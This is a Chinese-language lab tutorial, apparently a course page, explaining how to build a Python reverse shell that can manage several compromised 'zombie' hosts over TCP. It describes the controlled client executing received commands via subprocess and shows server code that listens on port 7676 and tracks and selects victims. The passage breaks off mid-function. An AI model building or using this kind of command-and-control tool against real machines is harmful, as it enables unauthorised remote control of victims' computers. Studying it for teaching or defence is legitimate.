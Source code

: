 TCP提供一种面向连接的、可靠的字节流服务。面向连接意味着两个使用TCP的应用（通常是一个客户和一个服务器）在彼此交换数据包之前必须先建立一个TCP连接。这一过程与打电话很相似，先拨号振铃，等待对方摘机说“喂”，然后才说明是谁。在一个TCP连接中，仅有两方进行彼此通信，而且广播和多播不能用于TCP。由于这里需要传输的数据量比较小，对传输效率影响不大，而且Tcp相对来说比较稳定！所以本次实验课程将采用Tcp协议来实现多客户端的反向Shell。

#### 2.3 可控制肉鸡反向Shell实现方案

本次实验将基于Tcp实现一个C/S结构的应用，Client作为被控端主动连接控制端，Server作为控制端则等待肉鸡连接。具体实现方案如下：

##### Server（控制端）

Server作为控制端，我们首先要用Python的Socket模块监听本地端口，并等待被控端连接，由于我们要实现多个肉鸡的反向Shell，所以我们需要 维护连接的主机列表，并选择当前要发送命令的肉机，接下来我们就可以通过socket给指定的主机发送Shell命令了。

##### Client（被控端）

Client作为被控端，首先我们要通过Python的Socket模块连接到控制端，之后只要一直等待控制端发送Shell命令就可以了，当接收到控制端发送的命令之后，用Python的subprocess模块执行Shell命令，并将执行命令的结果用socket发送给控制端。

### 三、代码实现

看了上面这么多理论知识，同学们是不是觉得有些厌烦了？别急，现在同学们就跟着我的思路来看一下代码的实现过程。另外说一下，在这里我可能会把被控端叫作肉鸡，意思其实是完全被我们控制的主机。在这里我们可以把肉鸡（机）和被控端当成一回事来看待，因为你能获得主机的Shell一般就可以完全控制这台主机了。

#### 3.1 控制端（Server）

控制端需要实现等待被控端连接、给被控端发送Shell命令，并且可以选择和切换当前要接收Shell命令的肉鸡（被控端）。所以，首先我们需要创建一个socket对象，并监听`7676`端口，代码如下：

```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # 创建一个Tcp Socket
s.bind(('0.0.0.0',7676)) #绑定7676端口，并与允许来自任意地址的连接
s.listen(1024) #开始监听端口
```

可能大家都比较熟悉socket的用法，这里我只说一下创建socket对象时两个参数的含义，一般我都会在代码的注释中同时解释每段代码的含义。socket.AF_INET代表使用IPv4协议，socket.SOCK_STREAM 代表使用面向流的Tcp协议，也就是说我们创建了一个基于IPv4协议的Tcp Server。 接下来当有肉鸡连接的时候我们需要获取肉机的socket，并记录起来，以便和肉鸡进行通信。我们先来看下代码：

```
def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release()
```

当有多个肉机连接到控制端时，我们要记录肉机的socket对象，以便我们可以选择不同的操作对象，我们再来看一看是怎样实现选择已经连接的肉机，代码如下：

```
clientList = []             #连接的客户端列表
curClient = None            #当前的客户端

def select_client():        #选择客户端
    global clientList
    global curClient

    for i in range(len(clientList)):    #输出已经连接到控制端的肉机地址
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')

    while True:
        num = input('client num:')      #等待输入一个待选择地址的序号
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
```